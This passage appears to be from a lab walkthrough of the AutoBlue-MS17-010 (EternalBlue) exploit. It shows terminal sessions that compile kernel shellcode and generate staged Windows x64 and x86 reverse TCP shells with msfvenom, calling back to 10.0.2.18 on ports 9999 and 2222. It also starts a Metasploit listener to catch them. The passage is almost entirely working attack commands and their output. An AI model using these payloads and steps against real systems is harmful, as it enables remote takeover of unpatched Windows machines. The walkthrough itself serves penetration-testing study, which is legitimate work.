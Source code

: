 ```bash
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.0.2.18
LPORT you want x64 to listen on:
9999
LPORT you want x86 to listen on:
2222
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.0.2.18 LPORT=9999
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...

msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.0.2.18 LPORT=2222
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

#### Setting up a shell listner

```bash
┌──(kali㉿kali)-[/opt/AutoBlue-MS17-010]
└─$ sudo ./listener_prep.sh
  __
  /,-
  ||)
  \\_, )
   `--'
Eternal Blue Metasploit Listener

LHOST for reverse connection:
10.0.2.18
LPORT for x64 reverse connection:
9999
LPORT for x86 reverse connection:
2222
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload: 0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
Metasploit tip: Enable verbose logging with set VERBOSE true

  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
```